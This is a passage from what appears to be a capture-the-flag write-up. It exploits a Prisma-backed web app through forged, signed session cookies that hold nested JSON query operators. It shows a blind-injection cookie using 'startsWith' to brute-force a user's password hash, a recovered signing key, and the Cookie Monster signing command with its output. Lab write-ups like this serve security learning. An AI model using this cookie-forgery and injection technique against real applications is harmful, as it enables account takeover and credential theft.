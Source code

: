 `findFirst` just checks whether the query matches our criteria:

{% embed url="https://www.prisma.io/docs/reference/api-reference/prisma-client-reference#findfirst" %}

### Blind Injection --> Cookie Monster Brute Force

Here are the facts so far and my deductions:

* `.sig` , the key I found and how the token is structured --> Definitely need to use Cookie Monster somehow.
* User is `wesley`, and hashes are unsalted and used directly for authentication --> Brute force is theoretically possible if done smartly.
* There's a SQL query that is 100% injectable, but I don't know how to exploit it at this point.
* The cookie is not validated in any way, it takes my input directly. It checks whether a `true` condition is returned from `findFirst` from the `prisma` API module --> Blind Injection based on where it redirects us?&#x20;

Based on the facts above, there should be a method of which we can brute force the hash using a smartly created user cookie that is signed through Cookie Monster.&#x20;

Since this uses `prisma` client API, we can try to inject some commands from that module based on their nested JSON queries possible.

{% embed url="https://www.prisma.io/docs/concepts/components/prisma-client/working-with-fields/working-with-json-fields#advanced-example-update-a-nested-json-key-value" %}

&#x20;I tried to use `contains` first in this cookie:

```
{"user":{"username":{"contains": "WESLEY"}, "password":{"startsWith":"a"}}}
```

Then, I signed the cookie required:

```
$ ./cookie-monster.js -e -f ../cookie.json -k 8929874489719802418902487651347865819634518936754 -n download_session
               _  _
             _/0\/ \_
    .-.   .-` \_/\0/ '-.
   /:::\ / ,_________,  \
  /\:::/ \  '. (:::/  `'-;
  \ `-'`\ '._ `"'"'\__    \
   `'-.  \   `)-=-=(  `,   |
       \  `-"`      `"-`   /

[+] Data Cookie: download_session=eyJ1c2VyIjp7InVzZXJuYW1lIjp7ImNvbnRhaW5zIjoiV0VTTEVZIn19fQ==                                                                                            
[+] Signature Cookie: download_session.sig=v0PDQv1xMVxi-N8hRUHd2B___z4
```

Using these parameters on the website returned the `/home` directory with response that looks like it works:

<figure><img src="../../.gitbook/assets/image (805).png" alt=""><figcaption></figcaption></figure>
